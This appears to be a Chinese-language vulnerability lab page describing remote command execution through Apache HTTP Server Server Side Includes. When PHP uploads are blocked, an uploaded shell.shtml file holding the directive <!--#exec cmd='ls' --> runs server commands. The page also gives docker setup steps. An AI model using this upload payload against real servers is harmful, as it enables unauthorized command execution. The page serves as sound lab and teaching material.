

Apache HTTP Server SSI 远程命令执行漏洞¶
Apache HTTP Server 开启了服务器端包含（SSI）功能时，允许通过特殊的SSI指令在HTML文件中执行服务器端命令。当配置不当时，这个功能可能被通过文件上传漏洞利用。
在测试任意文件上传漏洞时，目标服务器可能会禁止上传PHP后缀的文件。但是，如果服务器开启了SSI和CGI支持，攻击者可以上传一个SHTML文件，并使用 <!--#exec cmd="命令" --> 语法执行任意命令。
参考链接：
环境搭建¶
执行以下命令启动一个支持SSI和CGI的Apache服务器：
docker compose up -d
环境启动后，访问 http://your-ip:8080/upload.php 即可看到上传表单界面。
漏洞复现¶
虽然上传PHP文件是被禁止的，但我们可以上传一个名为 shell.shtml 的文件，内容如下：
<!--#exec cmd="ls" -->

成功上传后，访问shell.shtml文件，可以看到命令已被执行，证实了漏洞的存在：
